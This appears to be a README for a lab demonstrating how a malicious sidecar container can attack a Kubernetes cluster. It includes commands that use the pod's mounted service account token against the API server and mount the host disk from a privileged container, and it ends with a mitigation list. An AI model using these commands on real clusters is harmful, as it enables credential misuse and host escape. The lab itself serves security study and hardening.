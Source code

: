 # Attacking cluster from malicious sidecar

## Setup

- Build the sidecar

```bash
docker build . -t malicious-sidecar
```

- Setup the cluser

```bash
kubectl apply -f cluster/
```

- Check pods are healthy with

```bash
kubectl get pods
```

- Jump to sidecar terminal with

```bash
kubectl exec --stdin --tty <insert-pod-name> -c sidecar-container -- /bin/bash
```

Or simply

```bash
kubectl get pods -l app=simple-webapp -o name | rg "pod/" -r "" | head -n 1 | xargs -o -J % kubectl exec -it % -c sidecar-container -- /bin/bash
```

## Attack vectors

### Kubernetes service account

- Service account in `/run/secrets/kubernetes.io/serviceaccount` (token, namespace, cert)

Running `kubectl` with the service account

```bash
kubectl --token=`cat /run/secrets/kubernetes.io/serviceaccount/token` --certificate-authority=/run/secrets/kubernetes.io/serviceaccount/ca.crt --server=https://192.168.65.4:6443 auth can-i --list
```

### Mount host (priviledged=true)

<https://www.optiv.com/insights/source-zero/blog/kubernetes-attack-surface>

Find disks from /proc folder. I found `/dev/vda1` from `/proc/mounts` file.

```bash
mount /dev/vda1 /mnt-test/
```

### Cloud metadata API, and expanding attack to other cloud services

- Get Node credentials

## Mitigations

- Own service account for sidecar
- Disallow hostNetwork, hostPID, hostIPC, privileged, host-root
- TODO:
  - Network policies (egress rules, pods should not have access to places they do not need)
  - Pod security
    - Volume whitelists (no root volumes)
    - Root limits (no priviledge, container user?)
    - AppArmor

